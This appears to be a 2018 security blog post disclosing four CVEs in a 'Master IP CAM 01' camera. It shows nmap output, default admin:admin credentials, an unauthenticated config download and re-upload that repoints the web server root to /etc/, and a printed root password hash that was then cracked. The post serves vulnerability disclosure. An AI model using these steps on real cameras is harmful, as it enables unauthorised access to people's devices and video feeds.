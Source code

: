 ```yaml
---
layout: post
title:	"Master IP CAM 01 Vulnerabilities"
date:	2018-01-15 21:00:00
categories:
    - blog
tags:
    - penetration testing
---
```


Some time ago I analized this ipcam with my friend [Dzonerzy](https://twitter.com/dzonerzy):

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-15-master-ipcam/img1.jpg)

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-15-master-ipcam/img2.jpg)

~~~
var serialNum="VVVIPCSBC150617Z-06929VjmJH54vkK";
var model="RT_IPC";
var hardVersion="5900-gc1004";
var softVersion="V3.3.4.2103-S50-SBC-B20150721E";
var ipcname="WIFICAM";
var startdate="2017-8-5 0:0:2";
var runtimes="0 day, 0:54";
var sdstatus="Ready";
var sdfreespace="3400608 ";
var sdtotalspace="3969024 ";
var builddate="Jul 20 2015 ";
var productmodel="null";
var vendor="RTJ";
var swver="";
var hwver="";
var mppver="mpp";
~~~

We found some vulnerabilities but we might find much more in the next days.

In this first article we will describe:

* [[CVE-2018-5724]](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-5724) Unauthenticated Configuration Download and Upload
* [[CVE-2018-5723]](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-5723) Hardcoded Password for Root Account 
* [[CVE-2018-5725]](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-5725) Unauthenticated Configuration Change
* [[CVE-2018-5726]](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-5726) Unauthenticated Sensitive Information Disclousure

## Introduction

First of all we ran nmap:

~~~
Stone:~ syrion$ nmap 192.168.1.124 -sV -sT -p 1-65535

Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-23 17:41 CET
Nmap scan report for 192.168.1.124
Host is up (0.026s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE        VERSION
23/tcp    open  telnet         BusyBox telnetd
80/tcp    open  http           thttpd 2.25b 29dec2003
554/tcp   open  rtsp           HiLinux IP camera rtspd V100R003 (VodServer 1.0.0)
1018/tcp  open  soap           gSOAP 2.8
1235/tcp  open  mosaicsyssvc1?
8840/tcp  open  rtsp
60075/tcp open  unknown

Service Info: Host: RT-IPC; Device: webcam

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.44 seconds
~~~

There were different services running on the camera but we started from the webapp.

There was a login page where we could login with admin:admin

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-15-master-ipcam/img3.png)

Obviously every request was in HTTP (LOL).

The web application had not so much functionality but after some researches on google we found [this](http://www.themadhermit.net/wp-content/uploads/2013/03/FI9821W-CGI-Commands.pdf) manual with a lot of cgi command like the one we found in our ipcam. 

## [CVE-2018-5724] Unauthenticated Configuration Download and Upload

We could download the configuration file:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-15-master-ipcam/img7.png)

The first step was uncompressing the config_backup.bin file:

~~~
Stone:Desktop syrion$ tar xvf config_backup.bin 
~~~

 There were a lot of configuration files. But let's look at the webserver.conf:

~~~
port=80 user=root cgipat=cgi-bin/** nosymlink globalpasswd debug cgilimit=30
~~~

From nmap we knew the webserver was thttpd 2.25b 29dec2003, so after read the [manual](https://acme.com/software/thttpd/thttpd_man.html) we discovered how to change the root directory of the webserver, so we modified the configuration file as follow:

~~~
port=80 user=root dir=/etc/ nosymlink globalpasswd debug cgilimit=30
~~~

Ok at this point we only needed something to upload the new configuration file. The [manual](http://www.themadhermit.net/wp-content/uploads/2013/03/FI9821W-CGI-Commands.pdf) helped us again:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-15-master-ipcam/img8.png)

It worked and after some minutes the ipcamera was online again:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-15-master-ipcam/img9.png)

## [CVE-2018-5723] Hardcoded Password for Root Account 

Good, we got the passwd file with the password hash for user root:

~~~
root:$1$xFoO/s3I$zRQPwLG2yX1biU31a2wxN/:0:0::/root:/bin/sh
~~~

With John we cracked it:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-15-master-ipcam/img10.png)

And yes, we got root:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-15-master-ipcam/img11.png)

## [CVE-2018-5725] Unauthenticated Configuration Change

Without any authentication we could change the port where the server was running:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-15-master-ipcam/img4.png)
![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-15-master-ipcam/img5.png)
![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-15-master-ipcam/img6.png)

## [CVE-2018-5726] Unauthenticated Sensitive Information Disclousure

That was so magic:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-15-master-ipcam/img12.png)

I will update this post with the new vulnerabilities we will found.

Bye!!!
